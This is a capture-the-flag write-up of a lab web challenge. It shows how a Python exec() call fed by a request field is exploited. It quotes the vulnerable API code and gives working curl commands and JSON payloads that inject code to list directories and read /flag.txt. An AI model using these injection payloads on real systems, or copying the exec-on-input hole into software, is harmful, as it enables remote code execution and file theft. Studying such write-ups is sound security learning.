


# Evaluation Deck

## The Problem

Rating: easy

Flavor Text:
```
A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?
```

Attachments : [web_evaluation_deck.zip](./web_evaluation_deck.zip)


## Solution

ui.js looks to set card powers randomly and set the cards as not flipped

when you flip a card the post checks the health of the enemy
http://142.93.39.188:31468/api/get_health

{
  "current_health": "100",
  "attack_power": "54",
  "operator": "+"
}

if the operator is - the health of the enemy dropps and the api returns the health {"message":55}


curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"100","attack_power":"45","operator":"-"}' 


```
const calculate_health = (power, operator) => {
   fetch('/api/get_health',{
      method:'POST',
      headers: {
         'Content-Type': 'application/json'
      },
      body: JSON.stringify({ 'current_health': health.toString(), 'attack_power': power, 'operator': operator })
   })
   .then((data) => data.json())
   .then((response) => {
      if(Number(response.message) <= 0) updateHealth(-100)
      if(operator === '-') {
         document.getElementById("addicon").classList.toggle('incorrect');
         updateHealth(Number(`-${response.message}`))
         setTimeout(() => {
            document.getElementById("addicon").classList.toggle('incorrect');
        }, 500)
      }
      if(operator === '+') {
         document.getElementById("addicon").classList.toggle('correct');
         updateHealth(Number(response.message))
         setTimeout(() => {
            document.getElementById("addicon").classList.toggle('correct');
        }, 500)
      }
      document.getElementById("flipleft").textContent = `Flip left: ${total_tries - 1}`
      total_tries -= 1
   })
}

```




so getting it to negative doesn't do anything and may just be a math response.

the sourcecode is provided so lets review the api as the likely target for exploit

the first part does validation and setup
```
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:

```


we want the calculation part:
```
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
```

ok so this is for sure it. the exec code part means its running local commands and providing the response output. the int changes the values of the health and attack power to integers 

curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"100","attack_power":"45","operator":"-"}'


I open up a cmd line python environment and play with some test code to work out how to alter the code


so result = can be reset by including it in the operator field 

curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"0","attack_power":"0","operator":"- 10\nresult = dir() #"}'



curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"0","attack_power":"0","operator":"- 10\nresult = dir() #"}'

```
{
  "current_health": "0",
  "attack_power": "0",
  "operator": "\nimport os\nresult = os.listdir('/')\n#"
}
```
{
    "message": [
        "lib",
        "var",
        "proc",
        "usr",
        "dev",
        "bin",
        "media",
        "opt",
        "root",
        "mnt",
        "sbin",
        "etc",
        "sys",
        "run",
        "srv",
        "tmp",
        "home",
        "app",
        "flag.txt"
    ]
}


```
{
  "current_health": "0",
  "attack_power": "0",
  "operator": "\nimport os\nflag = open(r'/flag.txt', 'r')\nresult = flag.read()\n#"
}
```


## Flag
```{
    "message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}

```

## Final Notes
